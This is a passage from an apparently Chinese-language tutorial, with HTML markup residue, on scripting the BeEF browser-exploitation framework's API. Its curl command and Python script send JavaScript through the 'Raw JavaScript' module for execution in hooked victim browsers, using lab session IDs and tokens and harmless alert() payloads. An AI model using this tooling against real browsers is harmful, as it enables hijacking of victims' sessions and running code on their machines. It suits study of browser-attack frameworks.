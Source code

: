 <span nodeIndex="530">if</span> <span nodeIndex="531">__name__</span> == <span nodeIndex="532">'</span><span nodeIndex="533">__main__</span><span nodeIndex="534">'</span>:
    host = <span nodeIndex="535">"</span><span nodeIndex="536">http://192.168.1.133:3000/</span><span nodeIndex="537">"</span>
    sessionId = <span nodeIndex="538">"</span><span nodeIndex="539">tdipkyoT9fqMsMwrW6oc7esUX74rnuOffhe94T4u2DFRlAjhl5CN47gFikTjccC4YPetBtYhszOqb6MU</span><span nodeIndex="540">"</span>
    key = <span nodeIndex="541">"</span><span nodeIndex="542">e7170da7263c46d8e505ab044017707107a2ee6f</span><span nodeIndex="543">"</span>
    sendConfirm(host,sessionId,key)</code>
</pre>


<p nodeIndex="153">来一个带参数的例子，这次我使用的是Raw JavaScript模块，这个模块允许我们在目标浏览器上执行javascript代码。注意，这些javascript代码不能经过特殊编码。</p>


<p nodeIndex="155">这个模块的id号为169，我们再来看看它需要的参数，通过下面这样的请求获取模块详细信息</p>
<pre nodeIndex="156">
<code nodeIndex="546">http://192.168.1.133:3000/api/modules/169?token=be531aa684a8fd9ae86c36a3b062697706d9f2d5
</code>
</pre>




<p nodeIndex="159">需要提供的参数名为：”cmd”，参数内容是我们要执行的Javascript代码，我们可以用curl构造请求进行测试</p>
<pre nodeIndex="160">
<code nodeIndex="549">curl -i -H <span nodeIndex="550">"</span><span nodeIndex="551">Content-Type: application/json; charset=UTF-8</span><span nodeIndex="552">"</span> -d <span nodeIndex="553">'</span><span nodeIndex="554">{"cmd":"alert(\ssooking\);"}</span><span nodeIndex="555">'</span> http:<span nodeIndex="556">//</span><span nodeIndex="557">192.168.1.133:3000/api/modules/ykH80KnJo0NGgTnRF04kwsE9cuXxI7JaxvBbH4diBxWvNrmYnTt99Vp5Bg8UjMb4rHgBQF08k5pFOLso/169?token=dadd1be063d3a3b4339d84f5bdbbcbb25616b41d36a3b062697706d9f2d5</span></code>
</pre>


<p nodeIndex="162">因为不能用多个单引号，所以我用alert(\ssooking\)代替，但是没有弹出窗口，不过我使用自己编写的脚本执行这个模块就可以成功执行</p>
<pre nodeIndex="163">
<code nodeIndex="559"><span nodeIndex="560">#</span><span nodeIndex="561">!/usr/bin/env python</span><span nodeIndex="562">
# </span><span nodeIndex="563">-*- coding=utf-8 -*-</span><span nodeIndex="564">
#</span><span nodeIndex="565"> ** Author: ssooking</span>

<span nodeIndex="566">import</span> json
<span nodeIndex="567">import</span> urllib2

<span nodeIndex="568">def</span> execJavascript(host, sessionId, authkey):

    payload={
        <span nodeIndex="569">"</span><span nodeIndex="570">cmd</span><span nodeIndex="571">"</span>:<span nodeIndex="572">"</span><span nodeIndex="573">alert('Hello ssooking!');</span><span nodeIndex="574">"</span>
    }
    apiurl = host + <span nodeIndex="575">"</span><span nodeIndex="576">api/modules/</span><span nodeIndex="577">"</span> + sessionId + <span nodeIndex="578">"</span><span nodeIndex="579">/169?token=</span><span nodeIndex="580">"</span> + authkey
    <span nodeIndex="581">print</span> <span nodeIndex="582">"</span><span nodeIndex="583">[+] URL: </span><span nodeIndex="584">"</span> + apiurl
    jdata = json.dumps(payload)               <span nodeIndex="585">#</span><span nodeIndex="586"> 对数据进行JSON格式化编码</span>
    req = urllib2.Request(apiurl, jdata)      <span nodeIndex="587">#</span><span nodeIndex="588"> 生成页面请求的完整数据</span>
    req.add_header(<span nodeIndex="589">"</span><span nodeIndex="590">Content-Type</span><span nodeIndex="591">"</span>, <span nodeIndex="592">"</span><span nodeIndex="593">application/json; charset=UTF-8</span><span nodeIndex="594">"</span>)